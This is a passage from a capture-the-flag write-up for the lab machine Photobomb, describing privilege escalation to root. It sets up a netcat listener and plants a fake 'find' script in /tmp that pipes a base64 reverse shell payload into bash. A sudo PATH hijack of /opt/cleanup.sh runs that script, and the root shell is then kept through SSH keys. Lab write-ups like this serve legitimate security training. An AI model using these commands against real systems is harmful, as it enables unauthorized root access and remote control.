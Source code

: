 ## Privilege escalation (Sudo permissions)

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9002"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

### Exploitation

I'll create a `find` script in `/tmp` to execute this command:

```sh
#!/bin/bash

/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i
```

Then, let's make it executable.

Finally, let's abuse our `sudo` permissions to execute the `/opt/cleanup.sh`
file as `root`, while specifying a custom `PATH` environment variable:

```sh
wizard@photobomb:~$ sudo "PATH=/tmp:$PATH" "/opt/cleanup.sh"
```

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.182] 38224
root@photobomb:/home/wizard/photobomb#
```

It caught the reverse shell!

### Stabilizing the shell

Our home folder contains a `.ssh` directory. There's no existing private key, so
I'll create one and add the corresponding public key to `authorized_keys`, and
then I'll connect over SSH to Photobomb. This way, I'll have a much more stable
shell.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags
